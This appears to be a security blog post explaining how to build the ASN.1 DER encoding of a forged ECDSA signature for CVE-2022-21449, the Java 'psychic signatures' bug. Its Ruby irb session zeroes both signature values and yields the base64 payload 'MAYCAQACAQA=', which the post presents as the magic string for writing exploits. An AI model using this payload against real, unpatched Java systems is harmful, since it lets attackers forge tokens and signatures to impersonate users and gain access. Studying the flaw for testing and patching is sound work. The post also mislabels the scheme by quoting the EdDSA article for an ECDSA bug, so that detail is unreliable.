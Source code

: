```yaml
---
title: Encoding Neil Madden's Psychic Signatures
description: CVE-2022-21449 ASN1 Encoding
date: 2022-06-21
social_image: '/media/images/somuchwin.png'
tags: [CVE-2022-21449, ASN1, encoding]
---
```

## Encoding Psychic Signatures

Neil Madden produced a fantastic blog on a cryptographic vulnerability he calls "psychic signatures":
 
https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/

In writing an example exploit, you can see the following note:

*Note that the "InP1363Format" qualifier just makes it easier to demonstrate the bug. Signatures in ASN.1 DER format can be exploited in the same way, you just have to do a bit more fiddling with the encoding first, but note that JWTs and other formats do use the raw IEEE P1363 format.*

It turns out that "fiddling with the encoding" process was quite annoying to figure out, so this blog describes how we did it. Below shows the Ruby shell. We're assuming that we're creating a signature on a SHA256 hash of a message, so let's follow the various guides in doing that.

```ruby

irb(main):037:0> digest = OpenSSL::Digest.new("sha256")
=> #<OpenSSL::Digest: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855>

irb(main):006:0> ecdsa_key = OpenSSL::PKey::EC.new 'prime256v1'
=> #<OpenSSL::PKey::EC:0x00007f33765a7f20 oid=id-ecPublicKey>
irb(main):007:0> ecdsa_key.generate_key
=> #<OpenSSL::PKey::EC:0x00007f33765a7f20 oid=id-ecPublicKey>
irb(main):040:0> digest = ecdsa_key.dsa_sign_asn1 digest.digest("test")
=> "0D\x02 ko)X3\xB9\x9E)F\xB9\x7F\xD0N\xDC\"?\xD2\xA5\x14\xB13\xA9\xB47\x7F\x05^\xF5\x9E\x97\xFBL\x02 ?\"\xD...
```

Assuming that our starting point is a legitimate "digest" representing the encoded signature we're working with, the following shows all the information encoded in that signature.

```ruby
irb(main):041:0> OpenSSL::ASN1.decode(digest)
=>
#<OpenSSL::ASN1::Sequence:0x00007f33814a7a98
 @indefinite_length=false,
 @tag=16,
 @tag_class=:UNIVERSAL,
 @tagging=nil,
 @value=
  [#<OpenSSL::ASN1::Integer:0x00007f33814a7c78
    @indefinite_length=false,
    @tag=2,
    @tag_class=:UNIVERSAL,
    @tagging=nil,
    @value=#<OpenSSL::BN 48593880172122714955079866597225943896445807881741726131324012493366128802636>>,
   #<OpenSSL::ASN1::Integer:0x00007f33814a7c00
    @indefinite_length=false,
    @tag=2,
    @tag_class=:UNIVERSAL,
    @tagging=nil,
    @value=#<OpenSSL::BN 28557301345307170716138283025282821810093596091474068235889136496461319008185>>]>
irb(main):042:0> asn1 = OpenSSL::ASN1.decode(digest)
=>
#<OpenSSL::ASN1::Sequence:0x00007f33814273e8
```
OK, so we have two Big Numbers held here. That's expected, it turns out a signature actually involves two numbers. Quoting from [the wikipedia article:](https://en.wikipedia.org/wiki/EdDSA) *An EdDSA signature on a message M by public key A is the pair (R,S).*

With this variable representing a correctly ASN1 encoded object, and the knowledge from Niel's write up our goal is two set both r and s to 0, we can do that.

```ruby
irb(main):044:0> asn1.value[0].value
=> #<OpenSSL::BN 48593880172122714955079866597225943896445807881741726131324012493366128802636>
irb(main):045:0> asn1.value[0].value = 0
=> 0
irb(main):046:0> asn1.value[1].value = 0
=> 0
irb(main):047:0> asn1
=>
#<OpenSSL::ASN1::Sequence:0x00007f33814273e8
 @indefinite_length=false,
 @tag=16,
 @tag_class=:UNIVERSAL,
 @tagging=nil,
 @value=
  [#<OpenSSL::ASN1::Integer:0x00007f3381427528
    @indefinite_length=false,
    @tag=2,
    @tag_class=:UNIVERSAL,
    @tagging=nil,
    @value=0>,
   #<OpenSSL::ASN1::Integer:0x00007f3381427410
    @indefinite_length=false,
    @tag=2,
    @tag_class=:UNIVERSAL,
    @tagging=nil,
    @value=0>]>

```

Finally, this shows us how to output this data as a binary DER file or BASE64 encoded DER.

```ruby
irb(main):052:0> asn1.to_der
=> "0\x06\x02\x01\x00\x02\x01\x00"
irb(main):053:0> require 'base64'
=> false
irb(main):058:0> Base64.urlsafe_encode64 asn1.to_der
=> "MAYCAQACAQA="

```

So for the purposes of writing exploits, the magic string to produce fake signatures is in fact `MAYCAQACAQA=`.